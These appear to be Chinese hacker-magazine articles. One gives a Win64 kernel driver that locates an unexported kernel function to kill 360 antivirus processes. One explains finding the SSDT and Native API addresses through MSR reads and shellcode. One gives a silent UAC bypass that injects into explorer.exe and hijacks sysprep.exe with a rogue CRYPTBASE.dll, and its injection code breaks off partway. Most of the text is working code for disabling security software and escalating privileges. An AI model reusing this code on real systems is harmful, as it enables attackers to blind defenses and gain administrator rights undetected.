

图/文 胡文亮

原文再续，书接上回。上回我分析了 360 在 Win64 上实现自我保护的方法，并提出了用户态使用 EnumWindows 和 PostMessage 来突破它的自我保护。不过我也说到，尽管这种窗口攻击的方法能让 360 的安全防护作用完全消失，但是拿没有窗口的 ZhuDongFangYu.exe 没有办法。今天就提出一种方法，让这个可恶的 ZhuDongFangYu.exe 彻底消失。

由于 360 在 Win64 上的自我保护是采用微软的官方解决方案，而这套官方机制仅仅能监视系统中句柄的变化。所以我们在结束 360 进程的时候不能使用句柄。不使用句柄杀进程，除了窗口攻击，在 Ring 3 还真的没有什么办法了。所以我们只能通过驱动来实现了。

首先用 Stud_PE 观察 Windows 7 x64 的 ntoskrnl.exe 的导出表，发现导出的函数跟 Windows XP x86 没有什么大区别。于是决定采用老方法，通过导出的 PsTerminateSystemThread 动态定位未导出的 PspTerminateThreadByPointer。再用 PspTerminateThreadByPointer 依次结束 ZhuDongFangYu.exe 的每一个线程。不过话说得简单，做起来就不太简单了，实现起来还是蛮花费功夫的。

首先对 PsTerminateSystemThread 进行反汇编：

```asm
lkd> uf PsTerminateSystemThread
nt!PsTerminateSystemThread:
fffff800`03f65860 4883ec28        sub     rsp,28h
fffff800`03f65864 8bd1            mov     edx,ecx
fffff800`03f65866 65488b0c2588010000 mov   rcx,qword ptr gs:[188h]
...
fffff800`03f6586f f6814804000010  test    byte ptr [rcx+448h],10h
fffff800`03f65876 0f8485cd0200    je ...
nt! ?? ::NNGAKEGL::`string'+0x29eb0 (...)
nt!PsTerminateSystemThread+0x1c:
fffff800`03f6587c 41b001          mov r8b,1
fffff800`03f6587f e8d0590500      call nt!PspTerminateThreadByPointer (...)
fffff800`03f65884 90              nop
fffff800`03f65885 e97ccd0200      jmp ...
...
fffff800`03f92606 4883c428        add rsp,28h
fffff800`03f9260a c3              ret
```

注意该程序的第 14 和第 15 那两行，除了告诉我们 PsTerminateSystemThread 调用了 PspTerminateThreadByPointer 外，还提示了一个重要信息：在 Windows 7 x64 上的 PspTerminateThreadByPointer 有三个参数，不同于 Windows XP x86 上只有两个参数。根据 Win64 fastcall 调用约定，前四个参数分别在 rcx、rdx、r8、r9（r8b 为 r8 的低 8 位）中，从第五个参数开始才放在堆栈里。然后查 WRK，估计它的原型是：

```c
typedef NTSTATUS (__fastcall *PSPTERMINATETHREADBYPOINTER)(
    IN PETHREAD Thread,
    IN NTSTATUS ExitStatus,
    IN BOOLEAN DirectTerminate
);
PSPTERMINATETHREADBYPOINTER PspTerminateThreadByPointer = NULL;
```

根据反汇编代码可以看出 PspTerminateThreadByPointer 的特征码是 01 e8，于是有了以下代码：

```c
ULONG32 callcode = 0;
ULONG64 AddressOfPspTTP = 0, AddressOfPsTST = 0, i = 0;
if (PspTerminateThreadByPointer == NULL)
{
    AddressOfPsTST = (ULONG64)GetFunctionAddr(L"PsTerminateSystemThread");
    if (AddressOfPsTST == 0)
        return STATUS_UNSUCCESSFUL;
    for (i = 1; i < 0xff; i++)
    {
        if (MmIsAddressValid((PVOID)(AddressOfPsTST + i)) == FALSE)
        {
            if (*(BYTE*)(AddressOfPsTST + i) == 0x01 && *(BYTE*)(AddressOfPsTST + i + 1) == 0xe8)
            {
                RtlMoveMemory(&callcode, (PVOID)(AddressOfPsTST + i + 2), 4);
                AddressOfPspTTP = (ULONG64)callcode + 5 + AddressOfPsTST + i + 1;
            }
        }
    }
}
PspTerminateThreadByPointer = (PSPTERMINATETHREADBYPOINTER)AddressOfPspTTP;
```

接下来就是调用 PspTerminateThreadByPointer 干掉指定进程的所有线程即可。办法是用 PsLookupThreadByThreadId 查询 0x4 至 0x40000 之间所有能被 4 整除的数字；查询成功后，用 IoThreadToProcess 得到线程所属进程。如果属于要干掉的进程，就调用 PspTerminateThreadByPointer 结束之，否则不处理。注意凡是 Lookup 都需要 Dereference，否则某些情况下会蓝屏。代码如下：

```c
PETHREAD Thread = NULL;
PEPROCESS tProcess = NULL;
NTSTATUS status = 0;
for (i = 4; i < 0x40000; i += 4)
{
    status = PsLookupThreadByThreadId((HANDLE)i, &Thread);
    if (NT_SUCCESS(status))
    {
        tProcess = IoThreadToProcess(Thread);
        if (tProcess == Process)
            PspTerminateThreadByPointer(Thread, 0, 1);
        ObDereferenceObject(Thread);
    }
}
```

驱动部分基本写好了，最后在分发函数里获得 PID，并通过 PID 得到 EPROCESS，再调用 HwTerminateProcess64 即可（以上两段代码为讲解方便拆开，实际在一个函数里）：

```c
case IOCTL_PsKillProcess64:
{
    __try
    {
        memcpy(&idTarget, pIoBuffer, sizeof(idTarget));
        DbgPrint("[x64Drv] PID: %ld", idTarget);
        status = PsLookupProcessByProcessId((HANDLE)idTarget, &epTarget);
        if (!NT_SUCCESS(status))
        {
            DbgPrint("[x64Drv] Cannot get target! Status: %x", status);
            break;
        }
        else
        {
            DbgPrint("[x64Drv] Get target OK! EPROCESS: %llx", (ULONG64)epTarget);
            HwTerminateProcess64(epTarget);
            ObDereferenceObject(epTarget);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}
```

把驱动和应用程序编译后，放在安装了 360 8.0 正式版的虚拟机上（要打开测试签名模式），给驱动添加测试签名后，加载驱动。在加载驱动时没有受到 360 的任何阻拦，即使已经开启了所谓的“驱动防火墙”。输入 ZhuDongFangYu.exe 的 PID，大概过了 20 秒，ZhuDongFangYu.exe 就退出了。在测试例如 360safe.exe 之类的 GUI 进程，也可以结束（这个就很快，不到 1 秒），不过在 360safe.exe 结束时，会出现一个错误提示框（顺便讽刺一下 360 骗人，在弹出这个对话框时，360safe.exe 已经完蛋了，而不是提示上说的“即将关闭”），如图 1 所示。

如果先结束了 360tray.exe 再结束 360safe.exe，就不会弹出这个提示框了。不过如果结束 360tray.exe，会出现一个有趣的现象。就是在大约 30 秒内，你打开任何 GUI 程序都无法出现界面，即使这个 GUI 程序的进程已经创建。在测试 7.7 正式版时，我估计 360 的程序员貌似忘记注释掉了一段 DbgPrint，发现有新进程创建时，DebugView 会输出“某程序创建某进程”之类的字符串。目前来说在 Win64 上不可能通过 Hook NtCreateSection 之类的手段来实现，唯一的可能就是注册了一个进程回调。也就是说，360 的驱动在等待 360tray.exe 对新创建的进程做出反应，如果等待超时，就自作主张，同意新创建的进程运行。



图 1

这个提示框由 360 的 DumpUper.exe 弹出，如图 2 所示。



图 2

到此为止，我对 360 在 Win64 上自我保护的分析就结束了。由于一般电脑安装不了 Win64 虚拟机（需要硬件虚拟化技术支持），所以我录制一段视频给大家看。可以看出，微软提供的标准进程保护方法很脆弱，根本经不起实战的检验。我现在认为，“进程自我保护”是没有任何作用的，发在论坛上娱乐众人尚可，用在正规软件里就没有必要了。本人用的安全辅助类软件是 QQ 管家，以前也用过金山卫士，这两款软件在 Win64 上都没有使用任何进程自我保护手段。可我始终不明白，为什么 360 麾下的那群所谓的“驱动高手”就想不明白这个道理呢？

另外还有一点，我刚才也说过了，在 Win64 上加载驱动时，360 没有拦截。这就为我们在 Win64 上使用驱动对抗 360 降低了难度（大家都知道，360 比微软难缠多了）。至于如何在【别人】的 Win64 系统上加载没有签名的驱动，我还会写另外一篇文章来详细描述。请大家继续支持我的文章，支持黑客防线。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：汇编
- 关键词：Win64，SSDT

## 详解 Win64 上的 SSDT

图/文 胡文亮

探究了一年多的 Win64 内核，终于到了核心部分：SSDT。我估计 SSDT 这个词对很多底层爱好者都有特殊的含义，绝对不仅仅是“系统服务描述表”这么简单，相信不少人都是从玩 SSDT HOOK 开始玩 Windows 的。

内核的，至少我就是如此。大约十年前，网上出现了第一篇详解 Win32 上 SSDT 的中文文章。十年之后，让我来用中文来写这篇《详解 Win64 上的 SSDT》。

好了，废话就不说了，说多了估计有读者会拿砖头拍我。言归正传，本文只解决两个问题。第一，如何在内核里动态获得 SSDT 的基址；第二，如何在内核里动态获得 Native API 的地址（无论导出与否）。至于如何调用 Native API，就不解释了，因为调用 API 是 C 语言的问题，和平台无关。

在 Win32 下，第一个问题就根本不是问题，因为 KeServiceDescriptorTable 直接被导出了。但是 Win64 下，KeServiceDescriptorTable 没有被导出。所以我们必须搜索得到它的地址。首先反汇编一下 KiSystemCall64：

```asm
lkd> uf KiSystemCall64
Flow analysis was incomplete, some code may be missing
nt!KiSystemCall64:
fffff800`03cc7ec0 0f01f8          swapgs
fffff800`03cc7ec3 654889242510000000 mov qword ptr gs:[10h],rsp
...
【省略大量无关代码】
...
nt!KiSystemCall64+0x110:
fffff800`03cc7fd0 fb              sti
fffff800`03cc7fd1 48898be0010000  mov qword ptr [rbx+1E0h],rcx
```

```asm
fffff800`03cc7fd8 8983f8010000   mov dword ptr [rbx+1F8h],eax
fffff800`03cc7fde 4889a3d8010000 mov qword ptr [rbx+1D8h],rsp
...
nt!KiSystemServiceRepeat:
fffff800`03cc7ff2 4c8d1547782300 lea r10,[nt!KeServiceDescriptorTable (...)]
fffff800`03cc7ff9 4c8d1d80782300 lea r11,[nt!KeServiceDescriptorTableShadow (...)]
...
【省略大量无关代码】
```

最终，我们在 KiSystemServiceRepeat 里找到了 KeServiceDescriptorTable 的踪影。可能会有人问，为什么不直接反汇编 KiSystemServiceRepeat 呢？原因很简单，因为你找不到 KiSystemServiceRepeat 的地址。虽然 KiSystemCall64 和 KiSystemServiceRepeat 都没有由 ntoskrnl.exe 导出，但是我们能找到 KiSystemCall64 的地址。怎么找？直接读取指定的 MSR 得出。

很多人只听过通用寄存器和调试寄存器，其实还有很多其他的寄存器。MSR 的中文全称是“特别模块寄存器”（Model Specific Register），它控制 CPU 的工作环境和表示 CPU 的工作状态等信息（例如倍频、最大 TDP、危险警报温度），它能够读取，也能够写入，但是无论读取还是写入，都只能在 Ring 0 下进行。

我们通过读取 C0000082 寄存器，能够得到 KiSystemCall64 的地址，然后从 KiSystemCall64 的地址开始，往下搜索 0x500 字节左右（特征码是 4c8d15），就能得到 KeServiceDescriptorTable 的地址了。同理，我们换一下特征码（4c8d1d），就能获得 KeServiceDescriptorTableShadow 的地址了。

先用 WinDBG 证明一下（输入 `rdmsr c0000082`），如图 1 所示。



图 1

```c
tbl_address = ((ULONGLONG)CodeScanStart+i+b);
if (*(USHORT*)((ULONGLONG)tbl_address) == (USHORT)0x8d4c)
    return ((LONGLONG)tbl_address + 7) + *(LONG*)(tbl_address + 3);
return 0;
```

## 代码实现如下：

```c
ULONGLONG MyGetKeServiceDescriptorTable64()
{
    PUCHAR StartSearchAddress = (PUCHAR)__readmsr(0xC0000082);
    PUCHAR EndSearchAddress = StartSearchAddress + 0x500;
    PUCHAR i = NULL;
    UCHAR b1=0,b2=0,b3=0;
    ULONG templong=0;
    ULONGLONG addr=0;
    for(i=StartSearchAddress;i<EndSearchAddress;i++) {
        if (MmIsAddressValid(i) && MmIsAddressValid(i+1) && MmIsAddressValid(i+2)) {
            b1=*i; b2=*(i+1); b3=*(i+2);
            if (b1==0x4c && b2==0x8d && b3==0x15) {
                memcpy(&templong,i+3,4);
                addr=(ULONGLONG)templong + (ULONGLONG)i + 7;
                return addr;
            }
        }
    }
    return 0;
}
```

计算地址的核心代码是 `4c8d15` 后面的 4 个字节（一个 long）加上当前指令起始地址再加上 7。因为 `lea r10,XXXXXXX` 指令长度为 7 字节。作者还给出了国外网站上的另一段类似代码。

```c
ULONGLONG GetKeServiceDescriptorTable64()
{
    char KiSystemServiceStart_pattern[13] = "\x8B\xF8\xC1\xEF\x07\x83\xE7\x20\x25\xFF\x0F\x00\x00";
    ULONGLONG CodeScanStart = (ULONGLONG)&__strnicmp;
    ULONGLONG CodeScanEnd = (ULONGLONG)&KdDebuggerNotPresent;
    ULONGLONG i, tbl_address, b;
    for(i=0; i<CodeScanEnd-CodeScanStart; i++) {
        if (!memcmp((char*)(ULONGLONG)CodeScanStart+i,
                    (char*)KiSystemServiceStart_pattern, 13)) {
            for (b=0; b<50; b++) {
                // ...
            }
        }
    }
}
```

接下来要获取 Native API 在内核里的地址。获取该地址需要知道 Native API 的 index。文中通过 WinDBG（无需内核调试）在命令栏输入 `u ntdll!函数名` 来观察结果。

```asm
0:004> u ntdll!ntopenprocess
ntdll!ZwOpenProcess:
00000000`772b0110 4c8bd1          mov r10,rcx
00000000`772b0113 b823000000      mov eax,23h
00000000`772b0118 0f05            syscall
00000000`772b011a c3              ret
```

```asm
0:004> u ntdll!NtTerminateProcess
ntdll!ZwTerminateProcess:
00000000`772b0170 4c8bd1          mov r10,rcx
00000000`772b0173 b829000000      mov eax,29h
00000000`772b0178 0f05            syscall
00000000`772b017a c3              ret
```

两次反汇编结果几乎相同，不同点在第二句中的 `XXh`，这就是该函数的 index。随后重点是根据 index 和 SSDT 基址计算 Native API 地址，不同 Win64 系统版本计算方式不同。

```asm
nt!KiSystemServiceStart:
fffff800`03cc7fde 4889a3d8010000  mov qword ptr [rbx+1D8h],rsp
; Native API Index
fffff800`03cc7fe5 8bf8            mov edi,eax
; 操作1
fffff800`03cc7fe7 c1ef07          shr edi,7
; 操作2
fffff800`03cc7fea 83e720          and edi,20h
; 操作3（与地址无关）
fffff800`03cc7fed 25ff0f0000      and eax,0FFFh
nt!KiSystemServiceRepeat:
; 取得 SSDT 地址
fffff800`03cc3ff2 4c8d1547782300  lea ...
```

```asm
r10,[nt!KeServiceDescriptorTable (fffff800`03efb840)]
; 取得 SSDT 地址
...
cmp edi,20h
jne nt!KiSystemServiceGdiTebAccess+0x49
【省略大量无关代码】
; 调用 Native API
call r10
```

```c
UCHAR strShellCode[36]="\x48\x8B\xC1...";
scfn=ExAllocatePool(NonPagedPool,36);
memcpy(scfn,strShellCode,36);

ULONGLONG GetSSDTFunctionAddress64(ULONGLONG NtApiIndex)
{
    ULONGLONG ret=0;
    ULONGLONG ssdt=GetKeServiceDescriptorTable64();
    if(scfn==NULL)
        Initxxxx();
    ret=scfn(NtApiIndex, ssdt);
    return ret;
}
```

测试代码和运行结果如图 2 所示。

```c
DbgPrint("SSDT: %llx[TA's method]",MyGetKeServiceDescriptorTable64());
DbgPrint("SSDT: %llx[Foreigner's method]",GetKeServiceDescriptorTable64());
DbgPrint("NtOpenProcess: %llx",GetSSDTFunctionAddress64(0x23));
DbgPrint("NtTerminateProcess: %llx",GetSSDTFunctionAddress64(0x29));
```



图 2

一般来说反汇编代码里的精华部分很少，不过这段汇编代码却全部都是精华，它完整地诠释了系统是怎样由 SSDT 基址和 Native API 的 index 获得 Native API 的地址。……为了保证能算对地址，我决定使用原版的汇编代码来计算。

```asm
mov rax, rcx ; rcx=Native API 的 index
lea r10,[rdx] ; rdx=ssdt 基址
mov edi,eax
shr edi,7
and edi,20h
mov r10,qword ptr [r10+rdi]
movsxd r11,dword ptr [r10+rax*4]
mov rax,r11
sar r11,4
add r10,r11
mov rax,r10
ret
```

由于微软的 x64 编译器不能内联汇编，所以我只能使用 Shellcode 了：

```c
typedef UINT64 (__fastcall *SCFN)(UINT64,UINT64);
SCFN scfn;
VOID Initxxxx()
{
    ...
}
```

本文到此结束，至于如何在 Win64 上开启调试模式和测试签名模式、如何给驱动加上测试签名、如何让 DBGVIEW 有输出、如何获取 X64ASM 的 Shellcode，我就不赘述了，请参看我以前的文章。……希望本文能给各位读者带来一些帮助。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：无

## 完美突破 Win7 UAC

图/文 zyrvsfei


微软在 Vista 及其后的系统中，加入了一项新的技术，即 UAC（User Account Control，用户账户控制），它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户设置的操作之前，提供权限或管理员密码。当以非 administrator 用户执行程序的时候，默认都是普通权限，只有以 administrator 账户运行才是管理员权限。如，向 Windows 文件夹和 Program Files 文件夹复制文件默认情况下都是不允许的，除非你提权。微软的 UAC 真的那么完美吗？有突破的方法吗？下文介绍一种完美突破 UAC 的方法，用户完全无法发觉（排除杀软干扰）。

鉴于 Vista 的 UAC 糟糕设计，微软在 Win7 系统重新设计了 UAC，让 UAC 提示少了很多。所以微软提供了几组组件绕过 UAC。这几个组件都要用到。具体有 4 点，简单介绍一下。

- 1. 某些程序在运行时直接获得管理员权限，UAC 不会提示。虽然微软并没有提供白名单功能，但是系统内部应该存在微软自己设置的白名单。
- 2. 某些特定进程可以创建特定的 COM 对象，且不会出现 UAC 提示。虽然进程并没有提升权限，但是我们可以用创建的 COM 对象做需要管理员权限才能做的事情。
- 3. 某些需要权限才能创建的 COM 对象（IFileOperation）。这些对象如果被创建成功，就具有 admin 权限了。
- 4. 在 Win7 默认启用的一个特性，这个特性并不检测需要提权的代码的出处，它只检测这段代码运行在哪个进程内。且子进程与父进程有相同的权限。

还有一点，不属于 UAC 的范畴，在本方法突破 UAC 必不可少。程序在加载 DLL 时候会遵循一个规则：如果被加载的 DLL 在系统 “Known DLLs” 列表中，那么直接从 System32 目录查询文件；如果不在 “Known DLLs” 中，就优先从当前目录查询。

我们要找到这样一个程序：在启动的时候就能获得高权限（符合第一点），并且目标程序加载的 DLL 不在 “Known DLLs” 列表中，然后，我们将特殊的 DLL 复制到目标程序所在的目录中并改为目标程序加载的 DLL 的文件名，再运行目标程序，这时特殊的 DLL 就会被加载。而这样的程序一般在 System32 目录及其子目录下，System32 目录就不用想了，因为即使找到了符合要求的程序，其加载的 DLL 必定在 System32 目录下，你必须删除它加载的 DLL，然后复制特殊的 DLL 到 System32 目录下并改名。但是，即使有了高权限，你也无法删除 System32 目录下的系统 DLL 文件。所以目标程序只能在 System32 的子目录下。还好有个完全符合要求的程序：`c:\Windows\System32\sysprep\sysprep.exe`，其加载的 DLL 是 `CRYPTBASE.dll`，这个 DLL 不在 “Known DLLs” 列表中。

在普通权限下，是没有权限往系统目录中写文件（创建文件夹可以）。现在我们的主要目标是将 CRYPTBASE.dll 复制到 `c:\Windows\System32\sysprep\sysprep.exe` 目录下。

结合第二点和第三点，有个方法可以满足我们的需求。我们可以创建 IFileOperation 这个 COM 对象来实现文件的复制，但是这样会弹出 UAC 提示，显然，弹出 UAC 不是我们想要的结果。第二点说过，一些特定的进程创建 COM 对象的时候，不会弹出 UAC 提示。我发现，这些进程一般是微软提供的 explorer.exe、taskmgr.exe、notepad.exe 等系统程序。

结合上面说的，我们就可以完美突破 Win7 的 UAC 了。具体的方法是：注入 explorer.exe（或者 taskmgr.exe 等程序），让其创建 IFileOperation 对象并操作 IFileOperation 对象将特殊的 DLL 复制到 `c:\Windows\System32\sysprep` 目录下，并改名为 `CRYPTBASE.dll`，之后运行 `c:\Windows\System32\sysprep\sysprep.exe`，这个程序会主动加载 CRYPTBASE.dll。我们完全可以编写个 CRYPTBASE.dll（即特殊的 DLL）中，由于是 sysprep.exe 加载的 DLL，所以这个 DLL 拥有管理员的权限。就可以突破 UAC 了，不会有任何提示，完全静默的。

首先，我们要注入到 explorer.exe 中，可以用创建远程线程和 DLL 注入结合的方法。创建远程线程加载我们的 DLL，我注入的 DLL 的文件名是 mydll.dll。主程序的功能是注入代码，具体的见附件中的 uacpass2 工程，其主要代码如下：

```cpp
typedef struct _inj
{
    pLoadLibraryW myloadlibraryw; // LoadLibraryW 函数的地址
    pFreeLibrary myfreelibrary;   // FreeLibrary 函数的地址
    wchar_t * szFullDllName;      // 要注入的 DLL 的绝对路径
} inj,*pinj;

// 查找 explorer 进程，并且以 PROCESS_ALL_ACCESS 的权限打开
hSnap=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
if(hSnap==INVALID_HANDLE_VALUE){ return 0; }
if(FALSE==Process32First(hSnap,&pey)) return 0;
do {
    if(NULL==wcscmp(L"explorer.exe",(const wchar_t*)&pey.szExeFile)) {
        if(NULL==(hproc=OpenProcess(PROCESS_ALL_ACCESS,FALSE,pey.th32ProcessID)))
            return 0;
        else break;
    }
} while (Process32Next(hSnap,&pey));

hKernel=GetModuleHandle(L"Kernel32.dll");
myinj1.myloadlibraryw=(pLoadLibraryW)GetProcAddress(hKernel,"LoadLibraryW");
myinj1.myfreelibrary=(pFreeLibrary)GetProcAddress(hKernel,"FreeLibrary");

GetCurrentDirectoryW(sizeof(szbuffer),szbuffer);
wcscat(szbuffer,L"\\mydll.dll");
```

```cpp
// 将 mydll.dll 的绝对路径写入 explorer.exe 进程的内存中，并且保存地址
myinj1.szFullDllName=(wchar_t*)VirtualAllocEx(hproc,0,(wcslen(szbuffer)+1)*sizeof(wchar_t),MEM_COMMIT|PAGE_READWRITE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hproc,myinj1.szFullDllName,szbuffer,(wcslen(szbuffer)+1)*sizeof(wchar_t),&length);

// 将 myinj1 结构写入 explorer.exe 进程内存中，这个结构保存了 LoadLibraryW 和 FreeLibrary 函数的地址
lpparamter=VirtualAllocEx(hproc,0,sizeof(inj),MEM_COMMIT|PAGE_READWRITE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hproc,lpparamter,&myinj1,sizeof(inj),&length);

// 将注入的代码写入 Explorer.exe 进程内存中
